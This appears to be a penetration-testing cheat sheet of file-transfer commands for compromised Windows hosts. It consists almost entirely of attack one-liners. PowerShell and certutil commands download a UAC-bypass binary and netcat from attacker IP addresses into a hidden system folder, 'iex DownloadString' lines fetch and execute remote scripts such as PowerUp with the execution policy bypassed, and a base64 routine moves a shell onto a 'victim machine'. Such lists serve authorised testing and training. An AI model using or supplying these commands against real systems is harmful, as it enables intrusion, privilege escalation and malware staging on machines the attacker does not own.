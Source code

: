 ### Download File Powershell 3.0

```
Invoke-WebRequest -Uri "http://192.168.119.144/bypassuac-x64.exe" -OutFile "C:\Windows\System32\spool\drivers\color\bypassuac-x64.exe"
```

### Download File Powershell

```
powershell iex (New-Object System.Net.WebClient).Downloadfile('http://192.168.119.144/bypassuac-x64.exe', 'C:\Windows\System32\spool\drivers\color\bypassuac-x64.exe')
```

### Download String Powershell

```
powershell -exec bypass "iex (New-Object Net.WebClient).DownloadString('http://192.168.49.207/GetCLSID.ps1')"
```

```
powershell -exec bypass "iex (New-Object Net.WebClient).DownloadString('http://192.168.49.207/PowerUp.ps1'); Invoke-AllChecks"
```

```
powershell -exec bypass "iex (New-Object Net.WebClient).DownloadString('http://192.168.1.153/vulnad.ps1');Invoke-VulnAD -UsersLimit 100 -DomainName thescriptkid.org"
```

### Wget

```
wget "http://www.contoso.com" -outfile "file"
```

### Base64

On attacking machine encode the file and copy the output string

```
base64 file -w 0
```

Lastly, on the victim machine decode the string

```
echo APgABAAAA... <SNIP> ...lIuy9i | base64 -d > shell
```

### Certutil

```
certutil.exe -f http://172.16.0.1/nc.exe C:\users\reg_priv\nc.exe
```

```
certutil.exe -urlcache -f http://10.10.16.4/nc.exe C:\Windows\System32\spool\drivers\color\nc.exe
```
